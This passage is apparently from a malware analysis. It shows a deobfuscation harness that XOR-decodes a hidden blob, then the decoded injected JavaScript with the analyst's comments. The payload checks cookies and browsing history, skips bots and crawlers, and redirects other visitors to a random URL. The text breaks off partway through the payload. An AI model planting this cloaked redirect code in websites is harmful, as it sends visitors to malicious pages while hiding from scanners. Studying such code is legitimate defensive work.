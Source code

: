 ```html
<html>
<head>
</head>
<body>
<script type='text/javascript'>
var KEY = 'ABCDEFGHIJ';
var ENCODEDBLOB = 'AAAAA===';

function xor_enc(string, key) {
    var res = '';
    for (var i = 0; i < string.length; i++) {
        res += String.fromCharCode(string.charCodeAt(i) ^ key.charCodeAt(i % key.length));
    }
    return res;
}
var DECODEDBLOB = xor_enc(atob(ENCODEDBLOG), key);
debugger;
//(new Function(DECODEDBLOB))()
prompt("stage3", DECODEDBLOB);
</script>
</body>
</html>
``` 

The final decoded payload can be found below. I've added comments to explain what the script does.
```javascript
var w_location = '/?pagerd_' + Math.random().toString(36).substring(7);  //Generate a unique URL

function start() {
    var from = document.referrer;
    var i;
    if (checkCookie()) { //Check if the client has visited before and do not have certain wordpress cookies set if they exist then stop
        return;
    }
    var uagent = navigator.userAgent;
    if (!uagent || uagent.length == 0) { //Get the user agent. If there is no useragent then stop
        return;
    }
    uagent = uagent.toLowerCase();
    if (uagent.indexOf('google') != -1 || uagent.indexOf('bot') != -1 || uagent.indexOf('crawl') != -1) {} else { //Check if the client is a bot, crawler etc and if they are stop
        if (window.history && window.history.length > 2) { // Check if the client has a history of 2 or more pages
            window.location = w_location; // Redirect to the generated unique URL
        }
    }

    function getCookie(c_name) {
        var c_value = document.cookie;
        var c_start = c_value.indexOf(" " + c_name + "=");
        if (c_start == -1) {
            c_start = c_value.indexOf(c_name + "=");
        }
        if (c_start == -1) {
            c_value = null;
        } else {
            c_start = c_value.indexOf("=", c_start) + 1;
            var c_end = c_value.indexOf(";", c_start);
            if (c_end == -1) {
                c_end = c_value.length;
            }
            c_value = unescape(c_value.substring(c_start, c_end));
        }
```
